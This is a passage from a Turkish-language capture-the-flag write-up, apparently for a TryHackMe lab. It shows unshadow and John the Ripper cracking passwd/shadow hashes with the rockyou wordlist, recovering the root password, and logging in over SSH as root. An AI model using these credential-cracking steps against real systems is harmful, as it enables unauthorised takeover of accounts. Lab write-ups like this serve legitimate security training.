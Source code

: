 ***Unshadow*** *aracı kullanılarak hesaplara ait hash bilgileri john ile kırılmak üzere hazır hale getirilir.*

```bash
unshadow passwd shadow > crackhash
```

John aracı kullanılarak root parolası elde edilir.

```bash
─[barcode@parrot]─[~]$ john -wordlist=/usr/share/wordlists/rockyou.txt crackhash 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
trustno1         (root)
1g 0:00:00:06 0.07% (ETA: 14:56:04) 0.1494g/s 1798p/s 1951c/s 1951C/s 123qaz..hawkeye
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```
Root hesabıyla ssh bağlantısı sağlanır.

{{< image src="/images/thm/theserverfromhell/root2.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}










